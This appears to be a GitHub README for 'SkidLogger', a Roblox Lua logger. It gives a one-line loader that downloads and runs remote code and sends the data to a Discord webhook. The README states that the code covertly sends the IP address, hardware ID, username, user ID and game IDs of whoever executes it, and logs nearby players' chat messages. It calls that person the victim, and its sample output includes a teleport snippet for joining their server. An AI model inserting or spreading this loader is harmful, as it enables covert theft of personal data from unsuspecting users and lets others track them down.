 # How To Use the SkidLogger in your script?

Before you'll do all of those steps, note, that you should have a discord webhook API URL, before inserting the skidlogger in your own script.

1. Insert this code:
```lua
pcall(function()task.spawn(function()loadstring(game:HttpGet("http://github.com/IvanTheProtogen/skidlogger/raw/main/main.lua"))()("<<URL>>")end)end);
```
2. Replace the `<<URL>>` with your own discord webhook API URL.
3. Profit.

# What does it do?

It sends anyone's (whoever executes the code) IP, HWID, Username, User ID, Display Name, Place ID, Job ID and Universe ID via the webhook. It also logs messages said by players in the same server where the victim is at.

## Previews 

```
# Skid Got Caught!

HWID: ################################################################
Skidlogger Session ID: ##########
Username: IvanTheProtogen0
Display Name: IvanTheScript
User ID: 4856500064
Game Job ID: ########-####-####-####-############
Game Universe ID: ##########
Game Place ID: ##########
IP: ###.###.###.###

Join the skid by executing this code!: 
```lua
game:GetService("TeleportService"):TeleportToPlaceInstance(##########, "########-####-####-####-############", game:GetService("Players").LocalPlayer);
```
```

```
[[##########]] IvanTheScript (@IvanTheProtogen0) >> Hello World!
```
